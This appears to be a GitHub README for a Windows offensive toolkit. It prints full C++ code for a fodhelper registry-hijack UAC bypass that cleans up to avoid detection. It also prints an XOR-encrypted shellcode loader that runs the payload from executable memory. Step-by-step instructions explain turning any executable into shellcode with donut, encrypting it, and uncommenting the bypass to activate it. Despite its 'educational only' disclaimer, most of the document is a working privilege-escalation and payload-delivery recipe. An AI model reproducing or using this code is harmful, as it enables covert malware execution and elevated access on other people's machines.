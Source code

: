 # L3582-490DER

## Overview
This project contains two main components: a C++ UAC bypass demonstration and a Python shellcode encryption utility. **This is for educational purposes only** and was developed by 3582-490 to explore Windows API concepts and security mechanisms.

## DISCLAIMER
**I, 3582-490, created this code solely for educational and research purposes. I do not endorse, encourage, or take responsibility for any misuse of this code. Unauthorized use of these techniques against systems you don't own is illegal and unethical. Use this knowledge responsibly and only in environments where you have explicit permission.**

## Project Structure

### 1. L3582-490DER.cpp
This C++ code demonstrates various Windows API concepts including potential UAC bypass techniques (commented out for safety).

#### UAC Bypass Code Explanation:
```cpp
// UAC bypass technique using fodhelper (commented out for safety)

void mason__xa() {
    // Creates registry entries to hijack the fodhelper.exe UAC bypass
    HKEY mason__xb; // Registry key handle
    wchar_t mason__xc[MAX_PATH]; // Buffer for current executable path
    
    // Get the path of the current executable
    GetModuleFileNameW(NULL, mason__xc, MAX_PATH);
    
    // Create or open registry key for fodhelper hijack
    RegCreateKeyExW(HKEY_CURRENT_USER,
        L"Software\\Classes\\ms-settings\\shell\\open\\command",
        0, NULL, 0, KEY_WRITE, NULL, &mason__xb, NULL);
    
    // Set the default value to point to our executable
    RegSetValueExW(mason__xb, L"", 0, REG_SZ, (BYTE*)mason__xc, (wcslen(mason__xc) + 1) * sizeof(wchar_t));
    
    // Clear the DelegateExecute value to ensure our command runs
    RegSetValueExW(mason__xb, L"DelegateExecute", 0, REG_SZ, (BYTE*)L"", sizeof(wchar_t));
    
    // Launch fodhelper.exe which will execute our code with elevated privileges
    ShellExecuteW(NULL, L"open", L"fodhelper.exe", NULL, NULL, SW_HIDE);
    
    // Wait for execution to complete
    Sleep(3000);
    
    // Clean up registry entries to avoid detection
    RegDeleteTreeW(HKEY_CURRENT_USER, L"Software\\Classes\\ms-settings");
}

// Function to check if the current process has admin privileges
bool mason__xg() {
    BOOL mason__xh = FALSE; // Admin check result
    SID_IDENTIFIER_AUTHORITY mason__xi = SECURITY_NT_AUTHORITY; // NT authority
    PSID mason__xj; // Group SID

    // Create a SID for the Administrators group
    if (AllocateAndInitializeSid(&mason__xi, 2, SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS, 0, 0, 0, 0, 0, 0, &mason__xj)) {
        // Check if current token is member of Admin group
        CheckTokenMembership(NULL, mason__xj, &mason__xh);
        FreeSid(mason__xj); // Free the SID
    }
    return mason__xh; // Return admin status
}

```

**To activate the UAC bypass functionality, simply remove the comment markers `/*` and `*/` around the UAC bypass code section.**

#### Shellcode Execution Code Explanation:
```cpp
// Main function demonstrating XOR decryption and execution
int WINAPI WinMain(HINSTANCE mason__xk, HINSTANCE mason__xl, LPSTR mason__xm, int mason__xn) {
    // The commented section would check for admin privileges and attempt UAC bypass if not admin
    // if (!mason__xg()) {
    //    mason__xa();
    //    return 0;
    // }
    
    std::string mason__xd; // Unused string variable
    
    // Encrypted shellcode using XOR cipher (example values)
    unsigned char mason__xe[] = { 0x42, 0x6A, 0x75, 0xAA, 0xAA, 0x6A, 0x75, 0xAA };
    
    unsigned char mason__xf = 0xAA; // XOR decryption key
    
    // Decrypt the shellcode using XOR operation
    for (int mason__xi = 0; mason__xi < sizeof(mason__xe); ++mason__xi) {
        mason__xe[mason__xi] ^= mason__xf; // XOR each byte with key
    }
    
    // Allocate executable memory for the shellcode
    void* mason__xj = VirtualAlloc(0, sizeof(mason__xe), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
    // Copy decrypted shellcode to executable memory
    memcpy(mason__xj, mason__xe, sizeof(mason__xe));
    
    // Execute the shellcode by casting memory to function pointer and calling it
    ((void(*)())mason__xj)();
    
    return 0;
}
```

**To activate the admin check and UAC bypass in the main function, remove the `//` comment markers before the if statement and function calls.**

### 2. ShellCodeXOR.py
This Python utility encrypts binary files (like shellcode) using XOR encryption for use in the C++ program.

#### Features:
- XOR encryption with customizable key (default 0xAA)
- Converts encrypted data to C-style array format
- Handles file input with validation
- Generates output ready for use in C++ programs

## How to Use

### Prerequisites
1. Download [donut](https://github.com/TheWover/donut/releases/download/v1.1/donut_v1.1.zip) to generate shellcode from executables
2. Python 3.x installed for the encryption script

### Step-by-Step Process

1. **Generate shellcode from an executable using donut:**
   ```
   donut.exe -i your_file.exe -o output.bin
   ```

2. **Encrypt the shellcode using the Python utility:**
   ```
   python ShellCodeXOR.py
   ```
   Follow the prompts to select your .bin file

3. **Replace the encrypted array in the C++ code:**
   - Copy the output from output.txt
   - Replace the `mason__xe` array in L3582-490DER.cpp with your encrypted shellcode

4. **Compile the C++ code:**
   - Use a C++ compiler like MinGW or Visual Studio
   - Ensure you link against the necessary libraries (Windows.h, etc.)

## Technical Details

### XOR Encryption
The project uses a simple XOR cipher with a single-byte key (0xAA) for demonstration purposes. In real-world scenarios, more robust encryption should be used.

### Memory Execution
The code uses `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` permissions to allocate memory that can execute code. This technique is commonly monitored by security software.

### UAC Bypass (Commented Out)
The commented UAC bypass technique exploits the fodhelper.exe mechanism by creating specific registry entries. This technique is well-documented and likely detected by modern security solutions.

## Legal and Ethical Considerations

This code is provided for educational purposes only. Before using any of these techniques:

1. Ensure you have explicit written permission to test on the target system
2. Understand that these techniques may violate terms of service
3. Be aware that many of these methods are detected by modern security solutions
4. Never use this knowledge to harm others or disrupt systems

## About the Author

I'm 3582-490, a security enthusiast interested in understanding Windows internals and security mechanisms. I believe that understanding how systems can be exploited is essential to defending them effectively.

## License

This project is provided for educational purposes only. No license is granted for commercial use or redistribution.

